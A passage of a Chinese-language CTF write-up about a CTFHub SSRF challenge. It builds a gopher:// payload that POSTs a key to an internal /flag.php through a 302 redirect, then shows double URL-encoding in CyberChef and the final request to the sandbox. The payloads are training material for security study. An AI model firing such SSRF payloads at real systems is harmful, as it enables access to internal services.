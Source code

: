 伪协议同样可以参考文末的参考文章进行学习

构造`gopher`数据

我们首先要通过

```
{host}:{port}/index.php?url=http://127.0.0.1/302.php
```

去跳转`gopher`的协议，构造`POST`，结合`gopher`，数据包应该是这样的：

```
gopher://127.0.0.1:80/_POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 36
Content-Type: application/x-www-form-urlencoded

key=4a0c2731eeeb016454ef8984765b990d
```

以上数据包内容缺一不可，需要注意的是

- 特别注意 Content-Length 的长度，这个字段必须有，并且长度不对也是不行的

- 注意更改 key

- URL 编码的次数主要取决于你请求的次数，比如你直接 POST 请求算一次，直接?url 打则需再加一次共 2 次

这里推荐一个巨好用的在线编码网站，[CyberChef][7]

首先在左边搜索栏搜索`url encode`，把这个功能拖到功能栏，

将上面代码复制进去得到第一次`URL`编码的结果（注意默认编码特殊字符不需要勾选编码全部字符）：

```
gopher://127.0.0.1:80/_POST%20/flag.php%20HTTP/1.1%0AHost:%20127.0.0.1:80%0AContent-Length:%2036%20%0AContent-Type:%20application/x-www-form-urlencoded%0A%0Akey=4a0c2731eeeb016454ef8984765b990d
```

此处需要对换行进行处理，默认换行编码为`%0A`，但我们需要把它换为`%0D%0A`，

于是在页面左边搜索`Find / Replace`拖到功能栏按照所属进行配置：

```
gopher://127.0.0.1:80/_POST%20/flag.php%20HTTP/1.1%0D%0AHost:%20127.0.0.1:80%0D%0AContent-Length:%2036%20%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Akey=4a0c2731eeeb016454ef8984765b990d
```

最后由于我们是通过`?url`过去的，所以需要再编码一次：

![][8]

最终的包为：

```
GET http://challenge-8270f589b8f8abf8.sandbox.ctfhub.com:10080/?url=gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost:%2520127.0.0.1:80%250D%250AContent-Length:%252036%2520%250D%250AContent-Type:%2520application/x-www-form-urlencoded%250D%250A%250D%250Akey=4a0c2731eeeb016454ef8984765b990d HTTP/1.1
Host: challenge-8270f589b8f8abf8.sandbox.ctfhub.com:10080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```


[1]: https://www.ctfhub.com/#/index
[2]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012800.png
[3]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012936.png
[4]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_012958.png
[5]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013021.png
[6]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013152.png
[7]: https://gchq.github.io/CyberChef/
[8]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013522.png
[9]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013613.png
[10]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013714.png
[11]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013907.png
[12]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_013935.png
[13]: https://img.soapffz.com/archives_img/2020/12/26/archives_20201226_014115.png
[14]: https://www.cnblogs.com/-mo-/p/11673190.html
[15]: https://www.cnblogs.com/Web-Fresher/p/13723103.html
[16]: https://blog.csdn.net/rfrder/article/details/108589988
[17]: https://www.freebuf.com/articles/web/258365.html
[18]: https://mp.weixin.qq.com/s/saNLDe4OprhrsdfQ2scmpg